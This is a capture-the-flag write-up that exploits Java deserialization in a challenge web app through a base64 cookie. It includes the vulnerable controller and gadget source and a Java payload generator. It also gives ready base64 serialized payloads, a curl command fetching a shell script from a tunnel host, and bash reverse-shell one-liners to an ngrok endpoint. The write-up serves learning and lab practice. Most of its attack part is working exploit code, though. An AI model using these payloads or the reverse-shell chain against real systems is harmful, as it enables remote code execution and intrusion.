🚩 6th Challenge

### Question


> Link: http://18.207.239.107/

### Solution
- This is how the website looks like


- Looking at the source code I found this comment `<!-- Check /backup/MissionController.java -->`
- 
- Going to `/backup` alone shows this 
- 
- `http://18.207.239.107/backup/MissionController.java`
```java
package com.yogosha.controllers;
/\*    \*/
/\*    */ import com.yogosha.entities.Mission;
/\*    */ import com.yogosha.services.MissionService;
/\*    */ import com.yogosha.services.Security;
/\*    */ import java.io.ByteArrayInputStream;
/\*    */ import java.io.ByteArrayOutputStream;
/\*    */ import java.io.IOException;
/\*    */ import java.io.ObjectOutputStream;
/\*    */ import java.util.Base64;
/\*    */ import javax.servlet.http.Cookie;
/\*    */ import javax.servlet.http.HttpServletRequest;
/\*    */ import javax.servlet.http.HttpServletResponse;
/\*    */
import org.springframework.beans.factory.annotation.Autowired;
/\*    */ import org.springframework.stereotype.Controller;
/\*    */ import org.springframework.ui.Model;
/\*    */ import org.springframework.web.bind.annotation.CookieValue;
/\*    */ import org.springframework.web.bind.annotation.RequestMapping;
/\*    */ import org.springframework.web.bind.annotation.RequestMethod;
/\*    \*/
/\*    */ @Controller
/\*    */ public class MissionController
/\*    \*/ {
/\*    */   private MissionService missionService;
/\*    \*/
/\*    */   @Autowired
/\*    */   public void setMissionService(MissionService missionService) {
/\* 28 */     this.missionService = missionService;
/\*    \*/   }
/\*    \*/
/\*    \*/
/\*    */   @RequestMapping(value = {"/latest_mission"}, method = {RequestMethod.GET})
/\*    */   public String list(@CookieValue(value = "latest\_mission", defaultValue = "") String latest\_mission, Model model) {
/\* 34 */     if (latest_mission.length() == 0) {
/\* 35 */       model.addAttribute("latest_mission", "No recent mission detected");
/\*    */     } else {
/\*    */       try {
                 byte\[\] decodedBytes = Base64.getDecoder().decode(latest_mission);
/\* 39 */         ByteArrayInputStream ini = new ByteArrayInputStream(decodedBytes);
/\* 40 */         Security inp = new Security(ini);
/\* 41 */         Mission result = null;
/\* 42 */         result = (Mission)inp.readObject();
/\* 43 */         model.addAttribute("latest_mission", result.getMission());
/\*    \*/       }
/\* 45 */       catch (IllegalArgumentException ex) {
/\* 46 */         model.addAttribute("latest_mission", "An Error has occured");
/\* 47 */         ex.printStackTrace();
/\* 48 */       } catch (IOException e) {
/\* 49 */         model.addAttribute("latest_mission", "An Error has occured");
/\* 50 */         e.printStackTrace();
/\* 51 */       } catch (ClassNotFoundException e) {
/\* 52 */         model.addAttribute("latest_mission", "An Error has occured");
/\* 53 */         e.printStackTrace();
/\*    \*/       }
/\*    \*/     }
/\* 56 */     return "missions";
/\*    \*/   }
/\*    \*/
/\*
/\*    \*/
/\*    */   @RequestMapping({"/mission/new"})
/\*    */   public String newMission(Model model) {
/\* 67 */     return "missionform";
/\*    \*/   }
/\*    \*/
/\*    \*/
/\*    \*/
/\*    */   @RequestMapping(value = {"/mission"}, method = {RequestMethod.POST})
/\*    */   public String saveMission(HttpServletResponse response, HttpServletRequest req) {
/\* 74 */     Mission mission = new Mission(req.getParameter("mission"), req.getParameter("category"), req.getParameter("anime"));
/\* 75 */     this.missionService.saveMission(mission);
/\*    \*/
/\* 77 */     ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
/\*    \*/
/\*    */     try {
/\* 80 */       ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
/\* 81 */       objectOutputStream.writeObject(mission);
/\* 82 */       objectOutputStream.close();
/\* 83 */       String cookie = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
/\* 84 */       Cookie latest\_mission = new Cookie("latest\_mission", cookie);
/\* 85 */       response.addCookie(latest_mission);
/\* 86 */     } catch (IOException e) {
/\* 87 */       Cookie latest\_mission = new Cookie("latest\_mission", "");
/\* 88 */       e.printStackTrace();
/\* 89 */       response.addCookie(latest_mission);
/\*    \*/     }
/\* 91 */     return "redirect:/latest_mission";
/\*    \*/   }
/\*    */ }
```
- `http://18.207.239.107/backup/MissionDebug.java`
```java
 package com.yogosha.utils;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;

    public class MissionDebug implements Serializable {
            private static final long serialVersionUID = 298788778888997655L;
            private String debug;
            private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException  {
        try{
            ois.defaultReadObject();
            Runtime runtime = Runtime.getRuntime();
            runtime.exec((String) this.debug);
        } catch (IOException e) {
            e.printStackTrace();
        }

        }
    }
```
- From the codes above, reading `MissionDebug` we see potential target `runtime.exec((String) this.debug);` this statement is executing a shell command :D AMAZING!
- But how can we make it do that? there is no link between debug and the website!
- Going back to the first file we see `ObjectOutputStream` and `byteArrayOutputStream`which are known to have relation with **Java Deserialization Attacks** :D and so far I've only solved one of such challs before but it was much simpler but mostly all are very similar concept
- From the first file we see that it's getting the value of **latest_mission** from the **cookies**, trying to post a mission using the website page seems to not work at all (/mission)
- 
- Seems like there is some hidden restrictions on any page that don't match specific pages like `/backup` so that means we have to inject the cookies manually based on the code we understood in the first file
- We need to create a Java Serialized object (that calls the `MissionDebug#readObject` and set `debug` field to the shell command we like) that serialized object must be encoded in base64 as the source code states (Note that `readObject` is called automatically when the object is deserialized so it will be called by MissionController)
- With some searching I found this amazing tool called [ysoserial](https://github.com/frohoff/ysoserial) and [Java-Deserialization-Exploit](https://github.com/njfox/Java-Deserialization-Exploit) but I didn't dig deep into them as they seem to have specific exploits based on the imported packages which I didn't find any matches for
- So I searched more until I found this [article from PortSwigger](https://portswigger.net/web-security/deserialization) and [this](https://portswigger.net/web-security/deserialization/exploiting) and this [important example](https://github.com/PortSwigger/serialization-examples)
- After understanding the idea better and better and from the example link I tried to recreate the files and packages and make a serialized object encoded with base64 to put it in the cookies to give me RCE!
- I've recreated the java files tree
- 
- We're only interested in MissionDebug.java as it's what we will be trying to serialize since it extends Serializable and contains the malicious code portal
- Here is my code which I will explain
```java
package com.yogosha.utils;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;

public class MissionDebug implements Serializable {

    private static final long serialVersionUID = 298788778888997655L;
    private String debug;

    public MissionDebug(String debug) { // Added
        this.debug = debug; // Added
    } // Added

    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {

        try {
            ois.defaultReadObject();
            Runtime runtime = Runtime.getRuntime();
            runtime.exec((String) this.debug);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
- Since `debug` field is private I had to add a way to give it a value, either by using **Reflections** or by using a **constructor** like this
```java
    public MissionDebug(String debug) {
        this.debug = debug;
    }
```
- or with Reflections like this
```java
    MissionDebug mission = new MissionDebug();
    Field debug = mission.getClass().getDeclaredField("debug");
    debug.setAccessible(true);
    debug.set(mission, new String("PAYLOAD"));
```
- But I went with the first method (constructor)
- My Main.java code
```java
package com.yogosha;

import com.yogosha.utils.MissionDebug;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Base64;

class Main {
        public static void main(String[] args) throws Exception {
        String req = "curl https://social-plums-juggle-86-108-21-39.loca.lt/shell.sh -o /tmp/F30s.sh"; // run first to download the shell
        // String req = "bash /tmp/F30s.sh"; // run second to activate the shell (wait a minute before executing this - it might take sometime to download the .sh file)

        MissionDebug missionDebug = new MissionDebug(req);
        String serializedObject = serialize(missionDebug);
        System.out.println("Serialized object: " + serializedObject);
        //list(serializedObject);
        MissionDebug deserializedObject = deserialize(serializedObject);
        System.out.println("Deserialized object ID: " + deserializedObject.toString());
    }
    
    private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }

    private static <T> T deserialize(String base64SerializedObj) throws Exception {
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
            @SuppressWarnings("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }
}
```
- The reason for this class is to actually create the serialized object (the code is already found in the PortSwigger github link above but I only changed the main code to make it call MissionDebug constructor by instantiating an instance of the class and doing the rest of the stuff that i will explain below)
- I tried many RCE payloads using bash from https://www.revshells.com/ such as `sh -i >& /dev/tcp/172.17.0.1/5000 0>&1`but none worked, not sure why exactly but probably because of the Java method used is not an actual Bash therefore such commands can't work
- I had to go with another approach by creating a shell file `.sh` with my RCE payload and upload it to the system using `curl` then uploading another payload to run it!
- Here is my **F30s.sh** file
```bash
#!/bin/bash

bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/13841 0>&1
```
- That ngrok link is a tcp tunnel I opened for the netcat to listen
- 
- This way you can expose your IP/PORT that is behind a router to the world using ngrok to connect to your netcat
- I placed this .sh file in `/opt/lampp/htdocs` and started my php server with `sudo /opt/lampp/lampp start`
- With ngrok or [localtunnet](https://theboroer.github.io/localtunnel-www/) I started the server and created the first payload from the Main.java code above with this request first
```java
String req = "curl https://social-plums-juggle-86-108-21-39.loca.lt/shell.sh -o /tmp/F30s.sh"; // run first to download the shell
```
- Result:
- 
```css
rO0ABXNyAB5jb20ueW9nb3NoYS51dGlscy5NaXNzaW9uRGVidWcEJYLPtI0rFwIAAUwABWRlYnVndAASTGphdmEvbGFuZy9TdHJpbmc7eHB0AE5jdXJsIGh0dHBzOi8vc29jaWFsLXBsdW1zLWp1Z2dsZS04Ni0xMDgtMjEtMzkubG9jYS5sdC9zaGVsbC5zaCAtbyAvdG1wL0YzMHMuc2g=
```
- This is the base64 of the serialized MissionDebug object with debug field set to the curl command above
- If you try to decode it you may be able to read some stuff
- 
- You can see there the class name and debug field with its value
- Visit `/latest_mission` & set the `latest_mission` cookie of the website to the base64 value
- 
- Now reload the page and check your ngrok/localtunnel activity, it should receive a request to F30s.sh (localtunnel doesn't have a dashboard like ngrok)
- Here is my connections setup to listen to TCP for Netcat and HTTP for F30s.sh download 
- 
- After sending the second serialized object
- `rO0ABXNyAB5jb20ueW9nb3NoYS51dGlscy5NaXNzaW9uRGVidWcEJYLPtI0rFwIAAUwABWRlYnVndAASTGphdmEvbGFuZy9TdHJpbmc7eHB0ABFiYXNoIC90bXAvRjMwcy5zaA==`
- WE'VE GOT REVERSESHELL 🚀🚀
- 
- Executing `ls`
- 
- Executing `ls /`
- 
- Executing `cat /flag.txt`
- 
- VOILAAAA!!!
> Flag: `FLAG{J4vA_Des3rialization_1s_Th3_B3sT_U_kNoW?}`
